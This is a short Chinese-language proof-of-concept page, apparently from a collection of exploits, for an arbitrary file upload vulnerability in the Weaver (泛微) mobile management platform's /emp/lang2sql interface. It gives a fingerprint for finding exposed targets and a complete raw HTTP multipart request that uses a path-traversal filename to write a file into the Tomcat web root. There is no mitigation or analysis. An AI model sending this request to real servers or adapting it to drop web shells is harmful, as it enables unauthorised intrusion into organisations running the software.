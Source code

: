 ## 泛微移动管理平台lang2sql接口任意文件上传

## 
```
web.title="移动管理平台"
```


## poc
```
POST /emp/lang2sql?client_type=1&lang_tag=1 HTTP/1.1
Content-Type: multipart/form-data;boundary=----WebKitFormBoundarymVk33liI64J7GQaK
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Host: 目标地址
Content-Length: 202
Expect: 100-continue
Connection: close

------WebKitFormBoundarymVk33liI64J7GQaK
Content-Disposition: form-data; name="file";filename="../../../../appsvr/tomcat/webapps/ROOT/9SIpL.txt"

b9Q2Itmn1
------WebKitFormBoundarymVk33liI64J7GQaK--
```
![0302764cce0476f1d9d11374c18c024b](../../images/84018feb-2591-45a6-bf0f-663f32e7d98f.png)

![5cd4ffd5a4d86ad03d7208e3cc646f86](../../images/62003fb2-0dea-4dde-87ad-4c4165cc55d8.png)
